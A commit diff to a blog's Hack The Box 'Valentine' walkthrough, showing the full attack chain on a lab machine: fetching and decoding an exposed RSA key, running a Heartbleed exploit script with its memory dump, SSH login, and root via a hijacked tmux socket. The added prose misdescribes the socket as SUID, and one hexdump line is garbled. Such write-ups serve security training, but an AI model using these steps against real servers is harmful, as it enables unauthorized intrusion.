

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2020-04-18-Hackthebox-Valentine-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 6715 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
WIP valentine-walkthrough

````diff
--- a/_posts/2020-04-18-Hackthebox-Valentine-Walkthrough.md
+++ b/_posts/2020-04-18-Hackthebox-Valentine-Walkthrough.md
@@ -4,7 +4,7 @@ title: Hackthebox Valentine Walkthrough
 categories: HackTheBox
 ---
 
-![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-15/valentine.png)
+![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-18/valentine.png)
 
 # Explanation
 <a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
@@ -128,10 +128,10 @@ by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
 
 ## 2. Getting User
 We have file listing at `http://10.10.10.79/dev`.
-![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-15/omg.png)
+![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-18/2020-04-17-23-09-39.png)
 
 At `http://10.10.10.79/dev/hype_key`, we can find hex characters.
-![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-15/omg.png)
+![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-18/2020-04-17-23-07-19.png)
 
 We can decode the hex characters with the following command.<br>
 It is an RSA private key.
@@ -169,7 +169,7 @@ RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
 -----END RSA PRIVATE KEY-----
 ```
 
-Try to login with the SSH key.<br>
+Try to log in with the SSH key.<br>
 However, we get password prompt.
 ```shell
 root@kali:~# curl http://10.10.10.79/dev/hype_key -s | xxd -r -p > hype_key
@@ -181,7 +181,7 @@ Enter passphrase for key 'hype_key':
 ```
 
 On the top page, we have an image an woman with `bleeding heart`.
-![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-15/omg.png)
+![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-18/omg.png)
 
 Then, try to check if this has <a href="https://heartbleed.com/">Heartbleed</a>.<br>
 We can confirm that this server is vulnerable.
@@ -223,8 +223,8 @@ OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure
 Shellcodes: No Result
 ```
 
-This time, `OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure` has been used.<br>
-We have an interesting parameter `$text=`.
+This time, <a href="https://www.exploit-db.com/exploits/32764">OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure</a> has been used.<br>
+Running several times, we can get an interesting parameter `$text=`.
 ```shell
 root@kali:~# python 32764.py 10.10.10.79
 Trying SSL 3.0...
@@ -243,7 +243,8 @@ Received heartbeat response:
   0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
   0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
   0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
-  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
+  0050: 03 00 0A C0 13 C 009 C0 1F C0 1E 00 33 00 32 00  ............3.2.
+  i
   0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
   0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
   0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
@@ -272,7 +273,7 @@ Decode the base64 text.
 root@kali:~# echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
 heartbleedbelievethehype
 ```
-
+Using the ssh key and key passphrase found in the previous step, we can log in to the `Valentine` as an user `hype`.
 ```shell
 root@kali:~# ssh -i hype_key hype@10.10.10.79
 Enter passphrase for key 'hype_key':
@@ -287,7 +288,7 @@ Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
 hype@Valentine:~$
 ```
 
-
+`user.txt` is in a directory `/home/hype/Desktop`.
 ```shell
 hype@Valentine:~$ cat Desktop/user.txt
 e6710a5464769fd5fcd216e076961750
@@ -295,7 +296,8 @@ e6710a5464769fd5fcd216e076961750
 
 
 ## 3. Getting Root
-
+In `.bash_history`, we have some command histories.<br>
+`tmux` has been executed several times and we can find a session file `/.devs/dev_sess` was attached.
 ```shell
 hype@Valentine:~$ cat .bash_history
 
@@ -314,16 +316,18 @@ tmux -S /.devs/dev_sess
 exit
 ```
 
+Take a look at `/.devs/dev_sess`. We can confirm that this is owned by `root` and SUID bit is set.
 ```shell
 hype@Valentine:/.devs$ ls -l
 total 0
 srw-rw---- 1 root hype 0 Apr 17 12:58 dev_sess
 ```
 
+Attach the tmux session with this command.<br>
+We can achieve a root shell. As always, `root.txt` is in the directory `/root`.
 ```shell
 hype@Valentine:/.devs$ tmux -S /.devs/dev_sess
 ```
-
 ```shell
 root@Valentine:/.devs# id
 uid=0(root) gid=0(root) groups=0(root)
````
